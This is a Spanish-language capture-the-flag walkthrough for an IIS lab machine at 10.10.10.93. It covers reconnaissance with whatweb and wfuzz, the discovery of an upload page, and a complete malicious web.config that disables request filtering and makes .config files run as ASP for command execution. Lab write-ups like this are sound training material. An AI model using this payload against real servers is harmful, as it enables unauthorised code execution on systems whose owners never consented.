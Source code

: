 #### Whatweb {-}

```bash
whatweb http://10.10.10.93
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una imagen de Merlin ;)

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ
```

Encontramos una routa `uploadedFiles`, probamos con una extension `.aspx` porque es un IIS

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ.aspx
```

Encontramos una routa `transfer.aspx`

Si la analyzamos con firefox, vemos una pagina que nos permite subir ficheros.
## Vulnerability Assessment {-}

### Vulnerabilidad IIS en file upload {-}

Buscamos en internet sobre la busqueda `iis upload exploit`. Encontramos una pagina interesante en [ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/).
Uploadeando un fichero `web.config` podriamos ejecutar comandos a nivel de systema.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
